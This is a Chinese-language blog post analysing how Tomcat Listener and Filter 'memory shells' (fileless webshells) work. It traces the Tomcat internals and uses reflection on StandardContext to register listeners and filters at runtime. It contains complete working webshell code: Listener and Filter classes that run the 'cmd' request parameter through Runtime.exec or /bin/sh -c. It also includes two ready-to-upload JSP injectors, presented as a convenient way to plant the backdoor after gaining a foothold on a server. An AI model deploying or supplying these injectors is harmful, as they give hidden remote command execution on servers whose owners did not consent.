

tomcat Listener，Filter内存马简要分析
目录
tomcat 容器
tomcat 主要包含四种容器：Engine，Host，Context，Wrapper。其对应关系如下图

详细解读一下这个图。
一台服务器上是可以配置多个站点的，对于tomcat来说，每一个站点就对应一个HOST。
一个站点上是可以配置多个WEB应用的，比如说一个站点可能会有OA，SSO，邮件应用等等WEB应用，对于tomcat来说每一个WEB应用便对应着一个Context。
一个WEB应用中肯定也有多个访问路径，比如说OA可能就有登录，前端展示，搜索等。所以对于每一个访问路径tomcat都会分配一个Wrapper，每一个Wrapper对应一个Servlet，用于处理特定请求。
Listener 内存马
tomcat收到请求时，处理顺序是 Listener->Filter->Servlet。 也就是说Listener是最先接触到数据请求的，我们可以在Listener上做手脚从而达到内存马的目的。
实际上，我们想实现一个内存马，思路便是想让tomcat执行一段恶意程序，把恶意的listener或者filter类写入tomcat内存中，由于tomcat处理请求时，请求会被listener和filter处理（也就是说会被我们的恶意类处理），因此达到隐蔽的木马功能。
具体怎么个实现呢？我们可以大致想象一个思路：获取服务器初步权限后，创建一个JSP并向内写入向内存注入恶意Listener或filter的代码，随后访问JSP触发JSP代码，恶意Listener或filter被注入内存，随后删除JSP，通过恶意Listener或filter实现无文件webshell。但是由于一些原因导致直接通过addListener或者addFilter来添加监听器或过滤器会报错，具体解决方法就是下文的内容了：
ServletContext
如果我们想添加一个Listener，那么势必会用到一个方法：addListener。
我们来分析以下这个方法，想办法通过addListener方法把恶意Listener注入内存。 首先addListener方法是这么用的。
ServletContext servletContext = this.getServletConfig().getServletContext();
servletContext.addListener("");
我们直接跟进addListener，会发现跟进到了ServletContext这个接口类。

那么实现addListener的类是什么呢？换句话说，servletContext这个实例化对象是如何被实例化的呢？
ApplicationContext

通过调试，我们发现servletContext这个对象实际上是一个ApplicationContextFacade对象。 我们跟进到ApplicationContextFacade.class中，查看addListener方法的实现。

发现实际上是调用了ApplicationContext类的addListener方法。再次跟进。

这里还调用了一个addListener，再次跟进。

这里借用的别人的图，可以发现如果服务器已启动，那么通过直接调用addListener是无法添加监听器的。
究其原因，便是此处的context是StandardContext，它的状态是开始状态，无法在if判断中返回true。 这也就是上文提到的 "但是由于一些原因导致直接通过addListener或者addFilter来添加监听器或过滤器会报错"

如果能够突破if判断，来到此处，那么监听器就会被顺利的添加上

编写Listener内存马
既然阻碍我们添加Listener的原因已经找到了，那么就应该考虑如何绕过这个限制了。 很简单，通过反射即可绕过这个限制。
在编写反射代码之前，我们有必要去看一下，我们怎样才能通过反射"够到"StandardContext的addApplicationEventListener方法。

可以直观的看到，我们可以通过servletContext获得它的context属性（ApplicationContext对象），然后通过ApplicationContext对象的context获得StandardContext对象，然后调用addApplicationEventListener方法。很好。
反射代码
ServletContext servletContext = this.getServletConfig().getServletContext();
Field field = servletContext.getClass().getDeclaredField("context");
field.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) field.get(servletContext);
field = applicationContext.getClass().getDeclaredField("context");
field.setAccessible(true);
StandardContext standardContext = (StandardContext) field.get(applicationContext);
standardContext.addApplicationEventListener(new MyListener(request,response)); //这一行是将某个Listener类添加到监听器
恶意Listener
public class MyListenr implements ServletRequestListener {
public ServletResponse response;
public ServletRequest request;
MyListenr(ServletRequest request, ServletResponse response) {
this.request = request;
this.response = response;
}
public void requestDestroyed(ServletRequestEvent servletRequestEvent) {
}
public void requestInitialized(ServletRequestEvent servletRequestEvent) {
String cmder = request.getParameter("cmd");
try {
Process ps = Runtime.getRuntime().exec(cmder);
BufferedReader br = new BufferedReader(new InputStreamReader(ps.getInputStream()));
StringBuffer sb = new StringBuffer();
String line;
while ((line = br.readLine()) != null) {
//执行结果加上回车
sb.append(line).append("<br>");
}
String result = sb.toString();
this.response.getWriter().write(result);
} catch (Exception e) {
System.out.println("error ");
}
}
}
实验一下

我们先访问/a路由，让代码被执行。然后到任意页面传入恶意参数

SUCCESS。
为了更方便的注入内存马，我从网上嫖了一个JSP（Linux版）。只要我们上传该JSP然后访问它一下，内存马就被注入了，十分的方便。
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%>
<%@ page import="org.apache.jasper.tagplugins.jstl.core.Out" %>
<%@ page import="java.io.IOException" %>
<%@ page import="javax.servlet.annotation.WebServlet" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%
Object obj = request.getServletContext();
Field field = obj.getClass().getDeclaredField("context");
field.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) field.get(obj);
field = applicationContext.getClass().getDeclaredField("context");
field.setAccessible(true);
StandardContext standardContext = (StandardContext) field.get(applicationContext);
ListenH listenH = new ListenH(request, response);
standardContext.addApplicationEventListener(listenH);
out.print("test");
%>
<%!
public class ListenH implements ServletRequestListener {
public ServletResponse response;
public ServletRequest request;
ListenH(ServletRequest request, ServletResponse response) {
this.request = request;
this.response = response;
}
public void requestDestroyed(ServletRequestEvent servletRequestEvent) {
}
public void requestInitialized(ServletRequestEvent servletRequestEvent) {
String cmder = request.getParameter("cmd");
String[] cmd = new String[]{"/bin/sh", "-c", cmder};
try {
Process ps = Runtime.getRuntime().exec(cmd);
BufferedReader br = new BufferedReader(new InputStreamReader(ps.getInputStream()));
StringBuffer sb = new StringBuffer();
String line;
while ((line = br.readLine()) != null) {
//执行结果加上回车
sb.append(line).append("<br>");
}
String result = sb.toString();
this.response.getWriter().write(result);
}catch (Exception e){
System.out.println("error ");
}
}
}
%>
Filter 内存马
http://wjlshare.com/archives/1529
Filter内存马与Listener内存马还是有点区别的，要复杂一点点
doFilter方法如何被执行？
配置filter
再开始分析Filter内存马时，我们需要先知道，Filter类中的doFilter方法是如何被执行的。
OK我们先创建好一个Filter。
Filter类代码
import javax.servlet.*;
import java.io.IOException;
public class MyFilter implements Filter {
public void destroy() {
}
public void doFilter(ServletRequest req, ServletResponse resp, FilterChain chain) throws ServletException, IOException {
System.out.println("Filter!");
chain.doFilter(req,resp);
}
public void init(FilterConfig config) throws ServletException {
}
}
maven
<dependency>
<groupId>javax.servlet</groupId>
<artifactId>javax.servlet-api</artifactId>
<version>3.0.1</version>
<scope>provided</scope>
</dependency>
接下来在web.xml中添加Filter。

我们在doFilter方法处下断点，运行，得到调用帧如下

filterchain
我们从StandardWrapperValue#invoke 处开始分析.
filterChain.doFilter(request.getRequest(), response.getResponse());
那么这个filterChain是什么？我们跟进一下

再度跟进到createFilterChain方法，来到了ApplicationFilterFactory.java里。
比较关键的代码是这里。这个方法会遍历FilterMaps，检测每个FilterMap项对应的那个Filter与请求的路由等是否一致。若一致则将以该filter的name为参数去FilterConfigs里去寻找对应的FilterConfig,然后将该filterconfig放入filterchain中。不一致的则抛弃。

filterconfig与filterdef
那么filterconfig又是个什么样的东西呢？
我们跟进context.findFilterConfig,这里的context是StandardContext。

再度跟进filterconfigs，就可以很明显的发现filterconfigs是一个hashmap结构 键为filter名，值为filterconfig

那么filterconfig的结构又是如何。我们跟进ApplicationFilterConfig类。下图是此类的构造函数

关键地方圈出来了是与filterdef有关的代码。在构造函数的时候将传入context和filterdef，然后再通过对filterdef调用getfilter获得filter类（即我们自己定义的filter类）。
我们再看看filterDef的关键代码


OKOK，上面就是FilterConfig，FilterChain和FilterDef的一些零碎的介绍。
我们大致可以得到下列关键信息
FilterConfigs 是一个HashMap结构，键为filter名，值为filterconfig
filterconfig包含了filterdef
filterdef直接与filter类相关联
StandardWrapperValue#invoke 这一层分析完了，这一层是最麻烦的，向下两层将会亲切很多。
下面的两层
向下分析来到ApplicationFilterChain#doFilter.这一层很简单，调了个internalDofilter就没了

再向下分析来到ApplicationFilterChain#internalDoFilter。

关键的地方圈出来了，大致就是通过filterchain里的filterconfig的getFilter方法（下图为getFilter方法，可以明显看到是返回了filter）从而获得filterdef里的filter，从而调用filter的dofilter，这就是大概的流程。

加载过程流程图
文字总是有些贫瘠的，用图来说话就会明了许多。

FilterDef添加
我们如何把FilterDef与我们的Filter关联起来并添加到standardContext中呢？这个问题比较关键，因为我们必须将我们的FilterDef注入到内存才能让我们的Filter有被调用的可能性。
实际上呢，也很简单。流程上来说与Listener内存马差不多
打断点

跟进

再跟

继续跟

来到此处，与Listener内存马神似。
if判断里判断了程序是否在运行
context是standardContext，这里调用了它的addFilterDef来添加FilterDef。
编写Filter内存马
用反射，原因和Listener是一样的。
反射代码
try {
response.getWriter().write("a");
System.out.println("Servlet Get Message\n");
Object obj = request.getServletContext();
Field field = obj.getClass().getDeclaredField("context");
field.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) field.get(obj);
field = applicationContext.getClass().getDeclaredField("context");
field.setAccessible(true);
StandardContext standardContext = (StandardContext) field.get(applicationContext);
//获取standardContext
FilterDef filterDef = new FilterDef();
filterDef.setFilter(new MyFilter());
filterDef.setFilterName("MyFilter");
standardContext.addFilterDef(filterDef);
//将FilterDef与filter关联，注入到内存
field = standardContext.getClass().getDeclaredField("filterConfigs");
field.setAccessible(true);
HashMap filterConfigs = (HashMap) field.get(standardContext);//获取filterConfigs
Constructor constructor =
Class.forName("org.apache.catalina.core.ApplicationFilterConfig").
getDeclaredConstructor(Context.class, FilterDef.class);
constructor.setAccessible(true);
filterConfigs.put("MyFilter",constructor.newInstance(standardContext,filterDef));
//将包含filterDef的filterConfig添加到filterConfigs
FilterMap filterMap = new FilterMap();
filterMap.addURLPattern("/*");
filterMap.setFilterName("MyFilter");
standardContext.addFilterMapBefore(filterMap);
//将该filterMap与filterConfig进行NAME绑定并放到filterMaps的首位
} catch (IOException | NoSuchFieldException | IllegalAccessException | ClassNotFoundException | NoSuchMethodException | InstantiationException | InvocationTargetException e) {
e.printStackTrace();
}
木马本体
public class MyFilter implements Filter {
public void destroy() {
}
public void doFilter(ServletRequest req, ServletResponse resp, FilterChain chain) throws ServletException, IOException {
String cmder = req.getParameter("cmd");
try {
Process ps = Runtime.getRuntime().exec(cmder);
BufferedReader br = new BufferedReader(new InputStreamReader(ps.getInputStream()));
StringBuffer sb = new StringBuffer();
String line;
while ((line = br.readLine()) != null) {
//执行结果加上回车
sb.append(line).append("<br>");
}
String result = sb.toString();
resp.getWriter().write(result);
}catch (Exception e){
System.out.println("error ");
}
chain.doFilter(req,resp);
}
public void init(FilterConfig config) throws ServletException {
}
}
网上嫖的JSP
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.util.HashMap" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.io.InputStreamReader" %>
<%
Object obj = request.getServletContext();
Field field = obj.getClass().getDeclaredField("context");
field.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) field.get(obj);
field = applicationContext.getClass().getDeclaredField("context");
field.setAccessible(true);
StandardContext standardContext = (StandardContext) field.get(applicationContext);
FilterDef filterDef = new FilterDef();
filterDef.setFilterName("testF");
standardContext.addFilterDef(filterDef); // 在context中添加filterMap时会去找一下是否存在对应的filterdef
Filter filter = new testF();
filterDef.setFilter(filter); // 将我们创建的filter与filterdef相关联起来
field = standardContext.getClass().getDeclaredField("filterConfigs");
field.setAccessible(true);
HashMap hashMap = (HashMap) field.get(standardContext);
Constructor constructor = Class.forName("org.apache.catalina.core.ApplicationFilterConfig").getDeclaredConstructor(Context.class, FilterDef.class);
constructor.setAccessible(true);
hashMap.put("testF",constructor.newInstance(standardContext,filterDef));
FilterMap filterMap = new FilterMap();
filterMap.addURLPattern("/*");
filterMap.setFilterName("testF");
standardContext.addFilterMapBefore(filterMap);
System.out.println("filter ok !");
%>
<%!
public class testF implements Filter {
public void destroy() {
}
public void doFilter(ServletRequest req, ServletResponse resp, FilterChain chain) throws ServletException, IOException {
String cmder = req.getParameter("cmd");
String[] cmd = new String[]{"/bin/sh", "-c", cmder};
try {
Process ps = Runtime.getRuntime().exec(cmd);
BufferedReader br = new BufferedReader(new InputStreamReader(ps.getInputStream()));
StringBuffer sb = new StringBuffer();
String line;
while ((line = br.readLine()) != null) {
//执行结果加上回车
sb.append(line).append("<br>");
}
String result = sb.toString();
resp.getWriter().write(result);
}catch (Exception e){
System.out.println("error ");
}
chain.doFilter(req,resp);
}
public void init(FilterConfig config) throws ServletException {
}
}
%>

总结
个人感觉这篇文章写的比较乱，特别是Filter内存马。 这也是我拖了3个月才来搞的东西，这学期事有点多，很多之前想搞的东西都没腾出时间弄。 这篇文章讲到的内存马实际上并没有实现完全的无文件落地，中间会有恶意JSP文件落地。更高级的攻击形式后面再搞吧。
参考
http://li9hu.top/tomcat%E5%86%85%E5%AD%98%E9%A9%AC%E4%B8%80-%E5%88%9D%E6%8E%A2/
https://www.cnblogs.com/nice0e3/p/14622879.html#servletcontext
http://wjlshare.com/archives/1529
https://blog.csdn.net/angry_program/article/details/116661899